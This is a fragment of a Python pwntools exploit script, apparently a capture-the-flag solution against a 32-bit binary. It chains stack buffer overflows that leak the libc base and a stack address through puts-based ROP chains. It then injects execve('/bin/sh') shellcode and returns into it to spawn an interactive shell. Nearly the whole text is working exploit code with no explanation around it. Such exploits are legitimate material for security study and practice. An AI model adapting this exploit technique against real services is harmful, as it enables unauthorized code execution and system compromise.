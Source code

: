``` python
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    # leak libc
    s.send(b"1" * 33)                   # overwrite fd
    s.recv(1024)

    payload = b"A" * 0x124              # dummy
    payload += b"\x00\x00\x00\x00"      # canary
    payload += b"BBBB"                  # sfp
    payload += p32(elf.plt['puts'])     # ret #1
    payload += p32(0x080485e4)          # ret #2 (pop ret gadget)
    payload += p32(elf.got['write'])    # argument #1
    payload += p32(elf.symbols['main']) # ret #3
    s.sendline(payload)
    r = s.recv(1024)
    libc = u32(r[0:4]) - lib.symbols["write"]
    environ = libc + lib.symbols['environ']
    log.info(f"libc : {hex(libc)}")
    log.info(f"environ : {hex(environ)}")

    # leak stack
    s.send(b"2" * 33)                   # overwrite fd
    s.recv(1024)

    payload = b"C" * 0x124              # dummy
    payload += b"\x00\x00\x00\x00"      # canary
    payload += b"DDDD"                  # sfp
    payload += p32(elf.plt['puts'])     # ret #1
    payload += p32(0x080485e4)          # ret #2 (pop ret gadget)
    payload += p32(environ)             # argument #1
    payload += p32(elf.symbols['main']) # ret #3
    s.sendline(payload)
    r = s.recv(1024)
    stack = u32(r[0:4])
    log.info(f"stack : {hex(stack)}")

    # execute shellcode
    s.send(b"3" * 33)
    s.recv(1024)

    payload = asm(shellcraft.execve("/bin/sh", 0, 0))   # shellcode
    payload += b"E" * (0x124 - len(payload))            # dummy
    payload += b"\x00\x00\x00\x00"                      # canary
    payload += b"FFFF"                                  # sfp
    payload += p32(stack - 0x1cc)                       # ret #1 (&shellcode)
    s.sendline(payload)

    s.interactive()

if __name__=='__main__':
    main()
```
